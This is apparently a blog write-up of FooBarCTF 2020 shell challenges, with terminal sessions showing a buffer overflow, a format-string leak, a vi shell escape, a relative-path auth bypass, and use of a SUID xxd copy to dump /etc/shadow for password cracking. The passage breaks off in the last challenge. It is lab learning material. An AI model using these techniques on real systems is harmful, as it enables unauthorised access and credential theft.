As I said in [part I](https://blog.kuhi.to/foobarctf_2020_writeup_part_i), I participated in this year’s FooBarCTF. This writeup will include all the challenges from the most interesting category: shell. As a wanna-be pentester, I would love to see more CTFs include this category.

## Legend

  * [shell1: Key?](#shell1)
  *  [shell2: -La -La -land](#shell2)
  * [shell3: Bridge of Spies](#shell3)
  * [shell4: Alibaba aur uske 64 chor](#shell4)
  * [shell5: He X-men](#shell5)
  * [shell6: time travel is dangerous](#shell6)
  * [shell7: I am different](#shell7)
  * [shell8: clock under pressure](#shell8)
  * [shell9: Show me more](#shell9)
  *  [shell10: Worst time complexity](#shell10)
  * [shell11: Water overflow](#shell11)
  * [shell12: Stacks are cool](#shell12)
  * [shell13: Auth is easy](#shell13)
  * [shell14: Wrong user](#shell14)
  * [shell15: Cant touch this](#shell15)
  * [shell17: Stacks are cool. Again?](#shell17)

## shell1: Key? {#shell1}




shell1@349241e9b0e8:~$ ls -l
total 24
-rwxr-x--- 1 root ctf_player1 16952 Feb  7 12:01 own
-rwxr-x--- 1 root ctf_player1   373 Feb  7 12:01 own.c
shell1@349241e9b0e8:~$ cat own.c 
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc){
    char buf[32] = {0x00};
    int key = 0x00;

    setbuf(stdout, NULL);

    printf("Key? ");
    scanf("%d", &key);

    int fd = key - 0x31337;
    int len = read(fd, buf, 32);

    if (!strcmp("GIMMEDAFLAG\n", buf)) {
        system("cat HIDDEN");
        exit(0);
    }

    return 1;
}
shell1@349241e9b0e8:~$ 



This was very similar to a challenge that I’ve done before on pwnable.[something], but I didn’t search for it because the solution is easy. The script will ask for a key, which will be used to calculate a file descriptor that will be used to read a string. My target was to set the fd variable to 0, because on Linux that represents stdin. That means that read() would read the string from the console. My solution is as follows:


shell1@349241e9b0e8:~$ ./own
Key? 201527
GIMMEDAFLAG
GLUG{pwn_i$_e@$y}
shell1@349241e9b0e8:~$



Note that 201527 is just the base 10 representation of 0x31337.

**Flag:** GLUG{pwn\_i$\_e@$y}

## shell2: -La -La -land {#shell2}




shell2@349241e9b0e8:~$ ls -l
total 60
-rwxr-x--- 1 root ctf_player2 17 Feb  7 12:01 -bhzo
-rwxr-x--- 1 root ctf_player2 14 Feb  7 12:01 -dzpe
-rwxr-x--- 1 root ctf_player2 18 Feb  7 12:01 -hife
-rwxr-x--- 1 root ctf_player2 14 Feb  7 12:01 -hwxdfg
-rwxr-x--- 1 root ctf_player2 16 Feb  7 12:01 -iiwie
-rwxr-x--- 1 root ctf_player2 15 Feb  7 12:01 -jyurq
-rwxr-x--- 1 root ctf_player2 17 Feb  7 12:01 -ojqrpi
-rwxr-x--- 1 root ctf_player2 17 Feb  7 12:01 -ouwiqw
-rwxr-x--- 1 root ctf_player2 16 Feb  7 12:01 -uabdknd
-rwxr-x--- 1 root ctf_player2 16 Feb  7 12:01 -udtoo
-rwxr-x--- 1 root ctf_player2 17 Feb  7 12:01 -whxkbz
-rwxr-x--- 1 root ctf_player2 18 Feb  7 12:01 -wimc
-rwxr-x--- 1 root ctf_player2 27 Feb  7 12:01 -xoye
-rwxr-x--- 1 root ctf_player2 14 Feb  7 12:01 -xvrwvbs
-rwxr-x--- 1 root ctf_player2 14 Feb  7 12:01 -yukxz
shell2@349241e9b0e8:~$ cat *
cat: invalid option -- 'h'
Try 'cat --help' for more information.
shell2@349241e9b0e8:~$



This was the challenge where things started to get interesting. Because the filenames start with -, the cat program would interpret them as switches instead of files to read. In order to get around this, I passed them as ./-filename instead of -filename:


shell2@349241e9b0e8:~$ cat ./*
GLUG{uqvjqbuxzbd}GLUG{mfsdaxfh}GLUG{hnbzrbvkhrze}GLUG{xxqkdsld}GLUG{aichbmntlw}GLUG{tzcaehpik}GLUG{nlnjufccynq}GLUG{vfkatmbnbqf}GLUG{shoowtadyq}GLUG{dsdbkpjejt}GLUG{yvyqcaumbty}GLUG{lkvbjkwpvfen}
Flag is GLUG{sykswfynlvdc}
GLUG{vbbbcdpc}GLUG{wyodfens}



**Flag:** GLUG{sykswfynlvdc}

## shell3: Bridge of Spies {#shell3}




shell3@349241e9b0e8:~$ ls
flag.txt
shell3@349241e9b0e8:~$ cat flag.txt 
Didn;t find the flag?
Look bigger or change your perspective
shell3@349241e9b0e8:~$ ls -la | wc -l
1027
shell3@349241e9b0e8:~$


‘Look bigger or change your perspective’ means also looking at hidden files. However, a simple ‘ls -la’ command returned 1027 entries, meaning that there are 1024 hidden files (1027 – flag.txt – the . and .. directories). I used grep to get the flag:


shell3@349241e9b0e8:~$ grep "GLUG*" .*
grep: .: Is a directory
grep: ..: Is a directory
.qwpsp:GLUG{70m_h4nk5_15_17?}
shell3@349241e9b0e8:~$



**Flag:** GLUG{70m\_h4nk5\_15_17?}

## shell4: Alibaba aur uske 64 chor {#shell4}




shell4@349241e9b0e8:~$ ls
ali  baba
shell4@349241e9b0e8:~$ cat ali baba
amFjayBpcyBoYXBweQo=
R0xVR3tZMHVfZzA3X20zXzdoMXNfNzFtM30K
shell4@349241e9b0e8:~$ 


Even though I didn’t fully understand the title, this challenge was very easy. There were 2 files that contained base64-encoded string. I decoded those strings and got the flag.


shell4@349241e9b0e8:~$ cat ali baba | base64 -d
jack is happy
GLUG{Y0u_g07_m3_7h1s_71m3}
shell4@349241e9b0e8:~$



**Flag:** GLUG{Y0u\_g07\_m3\_7h1s\_71m3}

## shell5: He X-men {#shell5}




shell5@349241e9b0e8:~$ ls
flag.txt
shell5@349241e9b0e8:~$ cat flag.txt 
474c55477b5930755f6630756e645f6833785f683372337d
shell5@349241e9b0e8:~$



As the title suggest, the flag was encoded in hex. I used xxd to decode it.


shell5@349241e9b0e8:~$ cat flag.txt | xxd -ps -r
GLUG{Y0u_f0und_h3x_h3r3}
shell5@349241e9b0e8:~$



**Flag:** GLUG{Y0u\_f0und\_h3x_h3r3}

## shell6: time travel is dangerous {#shell6}




shell6@349241e9b0e8:~$ ls -la
total 12
drwxr-x--- 1 root ctf_player6 4096 Feb  8 21:37 .
drwxr-xr-x 1 root root        4096 Feb  8 21:35 ..
-rwxr-x--- 1 root ctf_player6  173 Feb  7 12:01 .bash_history
shell6@349241e9b0e8:~$ ls
shell6@349241e9b0e8:~$ ls -la
total 12
drwxr-x--- 1 root ctf_player6 4096 Feb  8 21:37 .
drwxr-xr-x 1 root root        4096 Feb  8 21:35 ..
-rwxr-x--- 1 root ctf_player6  173 Feb  7 12:01 .bash_history
shell6@349241e9b0e8:~$



Since there weren’t any other files, I looked into .bash\_history and found some interesting commands. I then recreated the contents of Time\_ticket and got the flag.


shell6@349241e9b0e8:~$ cat .bash_history 
echo "Hello player. Welcome to Time dimension."
echo "R0xVR3s1MWNfTXVuZHU1X0NyMzQ3dTVfMzU3fQo=" | base64 --decode > Time_ticket
rm -f Time_ticket
echo "Now find the ticket"
shell6@349241e9b0e8:~$ echo "R0xVR3s1MWNfTXVuZHU1X0NyMzQ3dTVfMzU3fQo=" | base64 --decod
GLUG{51c_Mundu5_Cr347u5_357}
shell6@349241e9b0e8:~$



**Flag:** GLUG{51c\_Mundu5\_Cr347u5_357}

## shell7: I am different {#shell7}




shell7@349241e9b0e8:~$ ls
secretkey.new  secretkey.old
shell7@349241e9b0e8:~$ diff secretkey.old secretkey.new 
120c120
< GLUG{1102aa95-ca39-413b-960c-555a76cbe390}
---
> GLUG{489ca541-56b6-4bf9-9632-037b6ea481ab}
shell7@349241e9b0e8:~$



There’s really not much I can say about this challenge. The diff command does exactly what it suggest: it prints the difference between two files.

**Flag:** GLUG{489ca541-56b6-4bf9-9632-037b6ea481ab}

## shell8: clock under pressure {#shell8}




shell8@349241e9b0e8:~$ ls
data.file
shell8@349241e9b0e8:~$ file data.file 
data.file: gzip compressed data, was "data", last modified: Mon Dec 16 10:15:32 2019, from Unix
shell8@349241e9b0e8:~$



The flag was compressed, so I transferred it to my computer in order to be able to process the file. I did that by using scp (the name stands for ssh-copy):


yakuhito@furry-catstation:~/ctf/foobar2020/shell8$ scp -P 1333 shell8@138.197.214.162:data.file ./data.file
shell8@138.197.214.162;s password: 
data.file                                                          100%   94     0.5KB/s   00:00    
yakuhito@furry-catstation:~/ctf/foobar2020/shell8$ file data.file 
data.file: gzip compressed data, was "data", last modified: Mon Dec 16 10:15:32 2019, from Unix
yakuhito@furry-catstation:~/ctf/foobar2020/shell8$ mv data.file data.gz
yakuhito@furry-catstation:~/ctf/foobar2020/shell8$ gunzip data.gz 
yakuhito@furry-catstation:~/ctf/foobar2020/shell8$ ls
data
yakuhito@furry-catstation:~/ctf/foobar2020/shell8$ file data 
data: bzip2 compressed data, block size = 900k
yakuhito@furry-catstation:~/ctf/foobar2020/shell8$ mv data data.bz2
yakuhito@furry-catstation:~/ctf/foobar2020/shell8$ bzip2 -d data.bz2 
yakuhito@furry-catstation:~/ctf/foobar2020/shell8$ ls
data
yakuhito@furry-catstation:~/ctf/foobar2020/shell8$ file data 
data: ASCII text
yakuhito@furry-catstation:~/ctf/foobar2020/shell8$ cat data 
TYHT{L0b_E0g@gr_q_J0eYQ}
yakuhito@furry-catstation:~/ctf/foobar2020/shell8$



After transferring the file, I just decompressed it two times: once using gunzip and once using bzip2.

**Flag:** TYHT{L0b\_E0g@gr\_q_J0eYQ}

## shell9: Show me more {#shell9}



This was one of my favorite challenges. Every time that a user connected via ssh, some ASCII art would be printed and the connection would close immediately:


yakuhito@furry-catstation:~/ctf/foobar2020/shell9$ ssh shell9@138.197.214.162 -p 1333
shell9@138.197.214.162;s password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-66-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Sun Feb  9 20:21:10 2020 from 103.217.243.31
  ____ _____ _____   _                       _ 
 / ___|_   _|  ___| (_)___    ___ ___   ___ | |
| |     | | | |_    | / __|  / __/ _ \ / _ \| |
| |___  | | |  _|   | \__ \ | (_| (_) | (_) | |
 \____| |_| |_|     |_|___/  \___\___/ \___/|_|
                                               
Connection to 138.197.214.162 closed.
yakuhito@furry-catstation:~/ctf/foobar2020/shell9$



I got the idea of using echo to try to execute commands only to find out that the message is being printed from a file named ‘text.txt’:


yakuhito@furry-catstation:~/ctf/foobar2020/shell9$ echo /bin/bash | ssh shell9@138.197.214.162 -p 1333
Pseudo-terminal will not be allocated because stdin is not a terminal.
shell9@138.197.214.162;s password: 
[banner_here]

/bin/bash
::::::::::::::
/home/shell9/text.txt
::::::::::::::
  ____ _____ _____   _                       _ 
 / ___|_   _|  ___| (_)___    ___ ___   ___ | |
| |     | | | |_    | / __|  / __/ _ \ / _ \| |
| |___  | | |  _|   | \__ \ | (_| (_) | (_) | |
 \____| |_| |_|     |_|___/  \___\___/ \___/|_|
                                               
yakuhito@furry-catstation:~/ctf/foobar2020/shell9$



Looking at the challenge title, I guessed the server uses ‘more’ to print that file. I knew that ‘more’ would keep itself opened and let the user scroll through the file if it was too big to be displayed in the terminal. However, I didn’t have control over the file’s contents, so I had to shrink my terminal window:



I then [read the manual page](http://man7.org/linux/man-pages/man1/more.1.html) for more and realized I could press ‘v’ to open vi:



I then used [this writeup](https://blog.stalkr.net/2010/05/defcon-18-ctf-quals-writeup-trivial-200.html) to read ‘flag.txt’ by issuing the following commands to vi:


:set shell=/bin/bash
!ls
:o flag.txt



**Flag:** GLUG{54luch4n\_n4h1\_m1l3g4}

## shell10: Worst time complexity {#shell10}




shell10@349241e9b0e8:~$ ls
binary
shell10@349241e9b0e8:~$ ./binary 
Say the 4 digit magic number and thou shalt be rewarded!
1337
Too bad! Try again.
shell10@349241e9b0e8:~$



Since the program asks only for 4 digits, I made a bash one-liner that would try all possible inputs and print the flag once it is printed:


shell10@349241e9b0e8:~$ for i in `seq 1000 9999`; do echo $i | ./binary | grep GLUG; done
Congratulations! The password is GLUG{c5_15_5h17}
^C
shell10@349241e9b0e8:~$



**Flag:** GLUG{c5\_15\_5h17}

## shell11: Water overflow {#shell11}




shell11@349241e9b0e8:~$ ls
watertank  watertank.c
shell11@349241e9b0e8:~$ cat watertank.c 
#include <stdio.h>
#include <stdlib.h>

#define FLAG "HIDDEN"

int main(int argc, char **argv){
  
	gid_t gid = getegid();
	setresgid(gid, gid, gid);

	int numLitre = 0;

	char buffer[64];

	puts("Welcome to the Water Well problem!\n");
	puts("In order to get the flag, you will need to have 100L of water!\n");
	puts("So, how many litres of water are there in the well: ");
	fflush(stdout);
	gets(buffer);

	if (numLitre >= 100){
		printf("Congrats, you filled %d litres!\n", numLitre);
		printf("Here;s your flag: %s\n", FLAG);
	} else {
		printf("Sorry, you only had filled %d litres, try again!\n",numLitre);
	}
		
	return 0;
}

shell11@349241e9b0e8:~$



This was a basic buffer overflow vulnerability. If the input is longer than 64 characters, it will start overwriting values on the stack. If it is long enough, it will eventually overwrite the numLitre variable.


shell11@349241e9b0e8:~$ python3 -c "print('a' * 100)" | ./watertank
Welcome to the Water Well problem!

In order to get the flag, you will need to have 100L of water!

So, how many litres of water are there in the well: 
Congrats, you filled 1633771873 litres!
Here;s your flag: GLUG{60_w17h_7h3_fl0w}
Segmentation fault (core dumped)
shell11@349241e9b0e8:~$



**Flag:** GLUG{60\_w17h\_7h3_fl0w}

## shell12: Stacks are cool {#shell12}




shell12@349241e9b0e8:~$ ls
test  test.c
shell12@349241e9b0e8:~$ cat test.c 
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define FLAG_BUFFER 128
#define LINE_BUFFER_SIZE 2000

void printMessage3(char *in)
{
  puts("will be printed:\n");
  printf(in);
}
void printMessage2(char *in)
{
  puts("your input ");
  printMessage3(in);
}

void printMessage1(char *in)
{
  puts("Now ");
  printMessage2(in);
}

int main (int argc, char **argv)
{
    puts("input whatever string you want; then it will be printed back:\n");
    int read;
    unsigned int len;
    char *input = NULL;
    getline(&input, &len, stdin);
    char * buf = malloc(sizeof(char)*FLAG_BUFFER);
    FILE *f = fopen("[[HIDDEN]]","r");
    fgets(buf,FLAG_BUFFER,f);
    printMessage1(input);
    fflush(stdout);
 
}
shell12@349241e9b0e8:~$



As soon as I started reading the source, I noticed the insecure ‘printf(in);’ instruction, which makes the application vulnerable to format string attack. I quickly tested to see if I was right:


shell12@349241e9b0e8:~$ ./test
input whatever string you want; then it will be printed back:

%p %p
Now 
your input 
will be printed:

0x5644df7b9260 0x7fea61c9c8c0
shell12@349241e9b0e8:~$



It worked! That meant I could leak values from the stack. I just needed to find the correct offset to print the flag. I wrote a bash one-liner to bruteforce the it:


shell12@349241e9b0e8:~$ for i in `seq 1 200`; do (echo -n '%'; echo -n $i; echo '$s') | ./test | grep GLUG; done
GLUG{n0_57r1n65_4774ched}
^C^Z
[1]+  Stopped                 ( echo -n '%'; echo -n $i; echo '$s' ) | ./test | grep GLUG
shell12@349241e9b0e8:~$



**Flag:** GLUG{n0\_57r1n65\_4774ched}

## shell13: Auth is easy {#shell13}




shell13@349241e9b0e8:~$ ls
auth  justno  justno.c
shell13@349241e9b0e8:~$ cat justno.c 
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

int main(int argc, char **argv)
{
    FILE *authf = fopen("../../problems/f49abea6827cafa20a035340d3812d09/auth", "r"); //access auth file in ../../../problems/f49abea6827cafa20a035340d3812d09
    if (authf == NULL)
    {
        printf("could not find auth file in ../../problems/f49abea6827cafa20a035340d3812d09/\n");
        return 0;
    }
    char auth[8];
    fgets(auth, 8, authf);
    fclose(authf);
    if (strcmp(auth, "no") != 0)
    {
        FILE *flagf;
        flagf = fopen("HIddEn", "r");
        char flag[64];
        fgets(flag, 64, flagf);
        printf("Oh. Well the auth file doesn't say no anymore so... Here's the flag: %s", flag);
        fclose(flagf);
    }
    else
    {
        printf("auth file says no. So no. Just... no.\n");
    }
    return 0;
}
shell13@349241e9b0e8:~$



The person who wrote the program probably thought nobody will be able to call it from a folder different than ~, as he/she used relative paths. I made my own folder in the /tmp directory and managed to fool the program into reading a file that I just created instead of the real ‘auth’ file:


shell13@4db4bb6d49b4:/tmp/.x/test$ cd ../..
shell13@4db4bb6d49b4:/tmp$ mkdir .yakuhito
shell13@4db4bb6d49b4:/tmp$ cd .yakuhito/
shell13@4db4bb6d49b4:/tmp/.yakuhito$ mkdir a
shell13@4db4bb6d49b4:/tmp/.yakuhito$ mkdir a/b
shell13@4db4bb6d49b4:/tmp/.yakuhito$ mkdir problems
shell13@4db4bb6d49b4:/tmp/.yakuhito$ mkdir problems/f49abea6827cafa20a035340d3812d09
shell13@4db4bb6d49b4:/tmp/.yakuhito$ cd a/b
shell13@4db4bb6d49b4:/tmp/.yakuhito/a/b$ echo yes > ../../problems/f49abea6827cafa20a035340d3812d09/auth
shell13@4db4bb6d49b4:/tmp/.yakuhito/a/b$ ~/justno
Oh. Well the auth file doesn't say no anymore so... Here's the flag: GLUG{auth_is_easy}
shell13@4db4bb6d49b4:/tmp/.yakuhito/a/b$



**Flag:** GLUG{auth\_is\_easy}

## shell14: Wrong user {#shell14}




shell14@d11f9f69163e:~$ ls
flag.txt
shell14@d11f9f69163e:~$ cat flag.txt 
you are looking in wrong place
shell14@d11f9f69163e:~$ 



This was another interesting challenge. The first step was to identify an unusual SUID binary (a binray that runs with root privileges no matter who executes it):


find / -perm 4000 2> /dev/null



The command returned an unexpected result: ‘/bin/damn’. I never heard of it, and a quick Google search confirmed the program didn’t exist. However, I was able to quickly determine that the binary is just ‘xxd’ by calling it directly and passing the –version flag:


shell14@a1d3b3f599a5:~$ /bin/damn --help
Usage:
       damn [options] [infile [outfile]]
    or
       damn -r [-s [-]offset] [-c cols] [-ps] [infile [outfile]]
Options:
    -a          toggle autoskip: A single '*' replaces nul-lines. Default off.
    -b          binary digit dump (incompatible with -ps,-i,-r). Default hex.
    -C          capitalize variable names in C include file style (-i).
    -c cols     format <cols> octets per line. Default 16 (-i: 12, -ps: 30).
    -E          show characters in EBCDIC. Default ASCII.
    -e          little-endian dump (incompatible with -ps,-i,-r).
    -g          number of octets per group in normal output. Default 2 (-e: 4).
    -h          print this summary.
    -i          output in C include file style.
    -l len      stop after <len> octets.
    -o off      add <off> to the displayed file position.
    -ps         output in postscript plain hexdump style.
    -r          reverse operation: convert (or patch) hexdump into binary.
    -r -s off   revert with <off> added to file positions found in hexdump.
    -s [+][-]seek  start at <seek> bytes abs. (or +: rel.) infile offset.
    -u          use upper case hex letters.
    -v          show version: "xxd V1.10 27oct98 by Juergen Weigert".
shell14@a1d3b3f599a5:~$ /bin/damn --version
xxd V1.10 27oct98 by Juergen Weigert
shell14@a1d3b3f599a5:~$



I thought that the program could allow me to read any file on disk given that it is a SUID, so I used it to dump the contents of /etc/passwd and /etc/shadow. While copying them to my local machine, I noticed an unusual user named ‘fyodor’ and remembered the Crime and Punishment author (Fyodor Dostoyevsky):


/bin/damn /etc/passwd | xxd -r
/bin/damn /etc/shadow | xxd -r



After that, I used the unshadow program to create a hash that can be cracked with johnTheRipper. After a lot of work, I discovered the password for ‘fyodor’ was just ‘123’. I then used su to switch over to his account and get the flag:


shell14@d11f9f69163e:~$ su -l fyodor
Password: 
fyodor@d11f9f69163e:~$ ls
flag.txt
fyodor@d11f9f69163e:~$ cat flag.txt 
GLUG{w1nd0w5_5uck5}
fyodor@d11f9f69163e:~$



**Flag:** GLUG{w1nd0w5_5uck5}

## shell15: Cant touch this {#shell15}




shell15@349241e9b0e8:~$ ls
flag  hint.txt
shell15@349241e9b0e8:~$ cat hint.txt 
One of my invention initiatives has been corrupted.
				- Jacob and Abraham, 1977-78
shell15@349241e9b0e8:~$ file flag 
flag: data
shell15@349241e9b0e8:~$



As the hint suggests, the flag file has been corrupted, so I transferred it to my computer and opened it in hexedit to see if I can determine the file type:


yakuhito@furry-catstation:~/ctf/foobar2020/shell15$  scp -P 1333 shell15@138.197.214.162:~/flag .
